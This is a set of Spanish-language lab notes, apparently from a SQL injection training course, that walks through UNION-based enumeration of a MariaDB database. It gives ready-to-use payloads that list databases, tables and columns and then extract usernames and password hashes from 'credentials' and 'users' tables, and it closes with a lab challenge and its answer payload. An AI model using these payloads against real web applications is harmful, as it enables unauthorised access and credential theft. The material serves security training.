 # Database Enumeration
## MySQL Fingerprinting

Despues de enumerar la base de datos, necesitamos identificar el tipo de DBMS con la que estamos trabajando, esto debido a que cada DBMS tiene diferentes queries.

Como vimos en la seccion anterior, cuando vimos la @@version, que nos arrojo.

![alt text](image/19.png)

Como salida se tiene **10.3.22-MariaDB-1ubuntu1** significa que estamos trabajando con MariaDB DBMS similiar a MySQL.

## INFORMATION_SCHEMA Database

Para realizar consultas usando **UNION, SELECT**, necesitamos usar correctamente los SELECT queries correctos, para eso necesitamos la siguiente información:

- Lista de bases de datos
- Lista de tablas dentro de cada base de datos
- Lista de columnas dentro de cada tabla

Con esta informaacion podemos usar la declaracio **SELECT** para obtener datos decualquier columna o tabla dentro de la base datos. Esta es la manera en la que podemos usar **INFORMATION_SCHEMA** database

**INFORMATION_SCHEMA** database contiene metadatos sobre las bases de datos y tablas presentes en el servidor, esta base de datos juega un papel crucial mientras exploramos con SQL injection. Pero en esta base de datos no podemos hacer llamadas directamente con el uso de **SELECT**, solo si sabemos especificamente el nombre de la tabla.

Entonces para referirnos a la tabla presente en la otra DB, podemos usar un punto **"."**, por ejemplo para **SELECT** la tabla **users** presnete en una base de datos llamada **my_database**, podemos usar:

```
SELECT * FROM my_database.users;
```

## SCHEMATA

Para iniciair la enumeracion, podemos encontrar DB disponibles en DBMS. La tabla **SCHEMATA** en **INFORMATION_SCHEMA** database, contiene informacion sobre todas las bases de datos en el servidor. Es usada para obtener los nombres de las bases de datos.

The SCHEMA_NAME column contains all the database names currently present.

```
mysql> SELECT SCHEMA_NAME FROM INFORMATION_SCHEMA.SCHEMATA;

+--------------------+
| SCHEMA_NAME        |
+--------------------+
| mysql              |
| information_schema |
| performance_schema |
| ilfreight          |
| dev                |
+--------------------+
6 rows in set (0.01 sec)
```
Nota: Las primeras tres bases de datos son bases de datos MySQL predeterminadas y están presentes en cualquier servidor, por lo que normalmente las ignoramos durante la enumeración de bases de datos. A veces también hay una cuarta base de datos "sys".


ahora intentemos usar **UNION** SQL injection, con otros payloads.

```
cn' UNION select 1,schema_name,3,4 from INFORMATION_SCHEMA.SCHEMATA-- -
```

![alt text](image/20.png)

Una vez mas vemos dos bases de datos **ilfreight** y **dev**. Ahora vamos a ver que base de datos esta ejecutando la aplicacion web para recuperar datos. Podemos encontrar la base de datos actual con la consulta **SELECT database()**

```
cn' UNION select 1,database(),2,3-- -
```

![alt text](image/21.png)

Como podemos ver la base de datos es ilfreight, como sea la otra base de datos **dev** se ve interesante, veamos que tablas contiene.

## TABLES

Antes de obtener los datos de la base de datos dev, necesitamos tener una lista de las tablas para realizar consultas con **SELECT**, para obtener todas las tablas dentro de la base de datos podemos usar la tabla **TABLES** en la base de datos **INFORMATION_SCHEMA**.


La tabla **TABLES** contiene informacion sobre todas las tablas dentro de la base de datos, dicha tabla contiene multiples columnas, pero nosotros estamos interesados en las columnas **TABLE_SCHEMA** Y **TABLE_NAME**. La columna **TABLE_NAME** contiene el nombre de las tablas, mientras que la columna **TABLE_SCHEMA** apunta a la base de datos a la que pertecene cada tabla, por ejemplo podemos usar el siguiente payyload para encontrar las tablas dentro de la base de datos dev.

```
cn' UNION select 1,TABLE_NAME,TABLE_SCHEMA,4 from INFORMATION_SCHEMA.TABLES where table_schema='dev'-- -
```

Nota: se remplazo '2' y '3' por ´TABLE_NAME' que guarda el nombre de las tablas, 'TABLE_SCHEMA' indicando la base de datos y se agrega 'where table_schema='dev'' condicionando solo a mostrar tablas de la base de datos 'dev'

![alt text](image/22.png)

La imagen nos muestra que vemos 4 tablas dentro de dev:
- credentials
- posts
- framework
- pages

## COLUMNS

Para obtener la informacion de la tabla **credentiasl**, primero necesitamos el nombre de las columnas en la tabla, podemos encontrarla en la tabla **COLUMNS** en la base de datos **INFORMATION_SCHEMA**. La tabla **COLUMNS** contiene inforacion sobre todas las columnas presentes en toda la base de datos.

```
cn' UNION select 1,COLUMN_NAME,TABLE_NAME,TABLE_SCHEMA from INFORMATION_SCHEMA.COLUMNS where table_name='credentials'-- -
```

![alt text](image/23.png)

La tabla tiene dos columnas **username** y **password**.

## Data

Ahora ya que recopilamos toda la informacion podemos usar la solicitud **UNION** para obtener la informacion de las columnas **username** y **pasword**, de la tabla **credentials** en la base de datos **dev**.

```
cn' UNION select 1, username, password, 4 from dev.credentials-- -
```

![alt text](image/24.png)

## Reto

¿Cual es el password hash de 'newuser' guardado en la tabla 'users' en la base de datos 'ifreight'?

```
cn' UNION select 1, username, password, 4 from ilfreight.users-- -
```

![alt text](image/25.png)